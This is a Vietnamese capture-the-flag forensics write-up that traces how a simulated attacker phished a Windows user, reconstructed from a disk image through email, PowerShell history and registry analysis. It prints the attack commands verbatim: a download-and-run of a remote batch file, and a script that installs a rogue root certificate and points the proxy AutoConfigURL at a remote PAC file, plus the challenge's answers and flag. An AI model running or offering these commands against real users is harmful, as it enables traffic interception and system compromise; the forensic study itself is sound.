







# PTITCTF2026: 
## Writeup : team Kuramaa
```bash
VietPQ vừa bị PhucDD hack. Mang role Threat Intelligence nhưng còn quá cùi nên VietPQ chưa thể tìm lại được cách mà PhucDD đã hack mình. Tuy PhucDD đã kịp tẩy trắng vài dấu vết nhưng may mắn là VietPQ capture được file bằng chứng. Hãy giúp VietPQ tìm ra sự thật
```

Sau khi giải nén file ra chúng ta sẽ nhận được 1 file .E01

Mật khẩu giải nén: `H3ll0Pl4y3r,W3lc0m3T0PTITCTF2026!!!`

Bài cho chúng ta 1 file disk của window

Chúng ta sẽ mở bằng FTK để thử triage bài trước 


Ta có thể thấy user chính là vietnq

Bài này mình rất may mắn khi đã check thunderbird trước, do phản xạ cso thể liên quan đến lưu trữ tin nhắn và dữ liệu người dùng, đồng thời trong phần Download cũng có thunderbird


Trong phần email ta thấy phúc dd đã hướng dẫn vietpq mở PowerShell và chạy command, nên từ đây ta pivot sang PowerShell history.


Ta thấy được dòng lệnh sau : 
```
curl -Lk https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/sus -o setup.bat && setup.bat
curl -Lk https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/sus -o setup.bat; setup.bat
Invoke-Request -Uri "https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/sus" -OutFile "setup.bat"; .\setup.bat
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/sus" -OutFile "setup.bat"; .\setup.bat

```
Dòng lệnh cho thấy URL GitHub chứa payload và file output là setup.bat.

Ta mở thử setup.bat 
```bash
curl -Lk -o temp.cer "https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/certi.cer" && certutil -user -addstore root temp.cer && del temp.cer && reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v AutoConfigURL /t REG_SZ /d "https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/proxy.pac" /f
```

Ta thấy setup.bat Tải certificate, dùng certutil, rồi sửa registry AutoConfigURL, t chuyển hướng sang NTuser.dat, nơi chứa thói quen của 1 người dùng như thé nào, và HKCU thì k thể có trong security, sam, system hay software. Ta có thể mở bằng registry explorer

Sau 1 hồi lọ mọ thì mình đã nghĩ đến Software\Microsoft\Windows\CurrentVersion\Internet Settings vì nó chứa URL PAC, chính là file mà Windows tự tải để quyết định traffic đi trực tiếp hay qua proxy.


Ok vậy ta đã hiểu được sơ sơ về bài này, phucdd gửi 1 mail cho user vietpq, user vietpq đã bị lừa, thực thi đoạn mã độc trên máy của vietpq, cdm và curl đã chạy, setup.bat tải temp.cer, và cài đặt mạng của vietpq đã bị thay đổi bằng file proxy.pac, giờ ta bắt đầu đi vào trả lời câu hỏi. 

## Q1. PhucDD đã sử dụng địa chỉ email nào để lừa VietPQ?

Theo như quá trình triage thunderbird trên kia thì chúng ta sẽ có được mail của phucdd



Đáp án Q1
```
phucddh4ck3rvjpr0123@gmail.com
```

## Q2 URL chứa đoạn mã độc được thực thi trên máy của VietPQ?

OK url này thì chúng ta cũng đã tìm ra từ powershellcmd 
```
https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/sus
```

## Q3. Cài đặt mạng của VietPQ đã bị thay đổi để chuyển hướng traffic sang C2 của PhucDD. PhucDD đã cấu hình hệ thống tự động tải một kịch bản điều hướng mạng. Hãy tìm URL của file cấu hình ấy?
Trong quá trình triage thì chúng ta cũng đã biết cấu hình bị sửa sang 1 file proxy mới 
Đáp án Q3:
```
https://raw.githubusercontent.com/lalalaf0r3n51c5/s0m3th1n9/refs/heads/main/proxy.pac
```
## Q4. Base64 địa chỉ C2 (IP:Port) do PhucDD nắm quyền kiểm soát?
OK đến đây thì tất cả dữ liệu chúng ta đã hết, phải tiếp tục điều tra thêm. Ta bắt đầu thử mở link url PAC của phucdd ```https://raw.githubusercontent.com/lalalaf0r3n51c5/s0m3th1n9/refs/heads/main/proxy.pac```


Đề bài yêu cầu mã base64, nên ta encode 

Kết quả Q4: 
```text
MjcuNzkuMTIxLjE3OToxMzM2
```
## Q5. File nào giúp PhucDD đọc được traffic HTTPS? Hãy tìm mã băm SHA-1 của file đó?
Trong quá trình triage thì ta đã nắm bắt được hành vi của phucdd trong setup.bat
```
curl -Lk -o temp.cer "https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/certi.cer" && certutil -user -addstore root temp.cer
```
URL tải certificate:

```
https://raw.githubusercontent.com/PTIT-BunBo/CTF-writeups/refs/heads/main/certi.cer
```

Sau khi tải về, file tạm trên máy nạn nhân là:

```
C:\Users\vietpq\temp.cer
```

Sau đó bị xóa bởi:

```
del temp.cer
```
Như vậy ta chỉ cần curl con certi.cer về là đc, chỉ là file cer nên hoàn toàn an toàn 

Đáp án cho Q5: 
```
9C1ABD314CA118790D25C32CB4E7E450919B8528 
```
Như vậy ta có được flag : 
```
PTITCTF{w0w_y0u_h3lp3d_vietpq_b3c0m3_4_pr0_thr34t_1nt3ll1g3nc3_b97135167522}
```


